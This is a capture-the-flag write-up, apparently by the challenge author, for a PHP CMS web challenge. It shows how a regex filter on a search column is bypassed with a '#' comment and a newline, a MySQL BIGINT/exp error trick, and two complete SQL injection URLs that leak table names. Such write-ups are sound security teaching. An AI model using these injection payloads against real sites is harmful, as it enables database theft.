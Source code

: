 ## Idea

1. SQL Injection
2. Mysql trick



## Solution

- SQL Injection

  classes/Board.class.php line 24~42 

  ```php
  function action_search(){
      $column = Context::get('col');
      $search = Context::get('search');
      $type = strtolower(Context::get('type'));
      $operator = 'or';

      if($type === '1'){
          $operator = 'or';
      }
      else if($type === '2'){
          $operator = 'and';
      }
      if(preg_match('/[\<\>\'\"\\\'\\\"\%\=\(\)\/\^\*\-`;,.@0-9\s!\?\[\]\+_&$]/is', $column)){
          $column = 'title';
      }
      $query = get_search_query($column, $search, $operator);
      $result = DB::fetch_multi_row('board', '', '', '0, 10','date desc', $query);
      include(CMS_SKIN_PATH . 'board.php');
  }
  ```

  $column variable filtered by using regex but you can use '#' comment

   if your input is 'title#',  get_search_query function will return like this

  ```mysql
  SELECT * FROM table WHERE LOWER(title#) like '%blablabalbal%';
  ```

  and if you enter return value in search parameter, query work like this:

  ```mysql
  SELECT * FROM table WHERE LOWER(title#) like '%{return value}
  blablabalbal%';
  ```

  okay, we got the way to exploit!

  ​

- Mysql trick

  I'm trying to find trick of mysql and I found an interesting bug

  ```mysql
  select * from user where (id=1)-~1
  ```

  Result :

  ```
  ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '((`sqli`.`user`.`id` = 1) - <cache>(~(1)))
  ```

  this works like exp function bug XDD

  ```mysql
  select * from user where id='a' or  exp(~id);
  ```

  ```
  ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~(`sqli`.`user`.`id`))'
  ```

  I intended the player to use this trick but they did not use this :(

  I made a mistake to set  the mysql account as root :( Sorry..

  ​

  **Intended solution**

  ```
  table name leak : http://url/index.php?act=board&mid=search&col=title%23&type=1&search=%0a)^(id=1)-~1%23
  ```

  **Unintended solution**

  ```
  http://url/index.php?act=board&mid=search&col=title%23&type=1&search=test%0a)%3C0%20union%20select%201,(select%20table_name%20from%20mysql.innodb_table_stats%20limit%202,1),3,4,5%23
  ```



## Write up

https://ctftime.org/writeup/8619

http://www.zer0xlab.com/Web_SimpleCMS_CodeGateQ/
